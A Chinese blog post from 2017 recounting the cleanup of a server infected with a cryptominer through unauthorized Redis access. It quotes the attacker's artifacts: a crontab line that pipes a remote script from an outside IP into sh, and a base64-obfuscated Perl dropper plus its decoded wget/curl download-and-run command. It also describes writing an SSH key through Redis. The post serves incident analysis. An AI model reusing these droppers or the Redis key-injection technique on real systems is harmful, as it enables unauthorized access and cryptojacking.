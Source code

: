 title: 由Redis未授权访问引起的一次入侵
tags: ['服务器相关']
date: 2017-04-05 16:51:33


> 实习期间遇到的一次入侵，服务器被人种了挖矿马，经过排查，发现是Redis未授权访问写入的ssh，加之crontab定时任务

首先使用history命令查看历史操作，大概理清遇到了什么问题。

发现安装杀毒软件并且多次杀掉进程，并且删除/var/spool/cron/root操作出现多次并且还删除了同目录下的crontabs文件夹，初步推测该root文件可再生。

并且发现了AnXqv及wnTKYg挖矿程序，初步推测是挖矿程序的问题，top命令发现有名为apache进程占用CPU率接近100%，验证猜测。

根据历史操作，进入/var/spool/cron文件下，发现crontabs文件夹及root文件再生了，首先查看crontabs文件夹，里面也是一份名为root的文件，内容为：

*/5 * * * * curl -fsSL http://103.216.121.231:9999/i.sh?8 | sh/root/minerd 19999

通过百度，发现minerd是挖矿程序。

查看root文件，里面运行了根目录下一个文件，返回根目录ls-al查看所有文件，发现除了root文件指向的文件之外，还有数份类似命名规则的文件，如图:

![](http://www.meizj.com.cn/wp-content/uploads/2017/04/QQ图片20170403171414-300x190.png)

经过查看后发现，根据内容将这些文件分为两类，一类是：

```shell
use

MIME::Base64;eval(decode_base64('IyEvdXNyL2Jpbi9wZXJsDQogICAgIC

AgICBzeXN0ZW0oIlx4NzdceDY3XHg2NVx4NzRceDIwXHgyRFx4NzFceDR

GXHgyMFx4MkRceDIwXHg2OFx4NzRceDc0XHg3MFx4M0FceDJGXHgyR

lx4MzZceDM1XHgyRVx4MzJceDM1XHgzNFx4MkVceDM2XHgzM1x4MkVc

eDMyMFx4MkZceDYxXHgyMFx4N0NceDIwXHg3M1x4NjhceDIwXHgzQlx4

MjBceDYzXHg3NVx4NzJceDZDXHgyMFx4MkRceDRGXHgyMFx4NjhceDc0

XHg3NFx4NzBceDNBXHgyRlx4MkZceDM2XHgzNVx4MkVceDMyXHgzNV

x4MzRceDJFXHgzNlx4MzNceDJFXHgzMjBceDJGXHg2MVx4MjBceDNCX

HgyMFx4NzNceDY4XHgyMFx4NjFceDIwXHgzQlx4MjBceDcyXHg2RFx4M

jBceDJEXHg3Mlx4NjZceDIwXHg2MSIpOw=='));

```

经过解码后就是：

```shell
use MIME::Base64;eval (decode_base64（#!/usr/bin/perl

system("wget -qO - http://65.254.63.20/a | sh ; curl -O http://65.254.63.20/a ; sh a ; rm -rf a");）);
```

另一类是：

```shell 
#!/usr/bin/perl .d41d8cd98f00b204e9800998ecf8427e
```

&nbsp;

大概判断是从某网址下载文件，运行文件，然后再删除

首先删除/var/spool/cron/root文件及/var/spool/cron/crontabs文件夹及/root/minerd文件，观察是否再生。

经过等待，除了/var/spool/cron/root之外的文件都未再生。

反过头通过百度anxqv的消息，发现有可能是攻击者利用redis未授权访问的漏洞进行了攻击，查看/root/.ssh文件夹，发现一个陌生公钥，通过排除，确定非本地人员，删除该公钥，并且本地搭建redis，对服务器进行授权访问测试，发现可以直接写入自己的公钥到服务器/root/.ssh目录下，连接成功，并且可以上传文件，将redis的6379端口不接入外网，修复漏洞。

几天后，查看.ssh文件夹，并未重新生成公钥，确认redis漏洞修复。

Kill apache进程，删除根目录下如图中的文件

crontab –l 命令查看，发现没有定时程序了。

开始分析. d41d8cd98f00b204e9800998ecf8427e文件，将其中执行的第一个命令输出到控制台：

经过阅读，大概有这么几个可疑的地方，一是/etc/cron.daily/anacron文件，查看文件，发现该文件与有几个可疑点。

1.

![](http://www.meizj.com.cn/wp-content/uploads/2017/04/2-300x20.png)

图中高亮的代码是. d41d8cd98f00b204e9800998ecf8427e文件中的内容，推测. d41d8cd98f00b204e9800998ecf8427e文件由该文件生成。

2.紧接上图高亮代码的下一句，文件名MD5加密。

3.

![](http://www.meizj.com.cn/wp-content/uploads/2017/04/3-300x46.png)

从图中可知，将之前删除掉的root文件再生的源头就是anacron文件，继续向下阅读。

4.在接下来的代码中，多次启动名为apache的程序，与top命令查看结果一致，至此，基本确定anncron文件就是不断生成cron下root文件，以及重复执行根目录下. d41d8cd98f00b204e9800998ecf8427e文件的源头。

删除anacron文件，观察发现apache不再启动，补上redis的漏洞，修复完成。

总结：大概流程是，攻击者利用redis漏洞，免密码ssh连接，然后下载文件，并将该文件保存为anacron文件，后面的定时也是从该文件衍生，挖矿程序至apache后不再更名的原因可能是，，攻击者无法ssh连接，只能运行最后一次下载的文件，之前删除的都是衍生物，并未删除根源，所以会重生，删除根源文件即可。


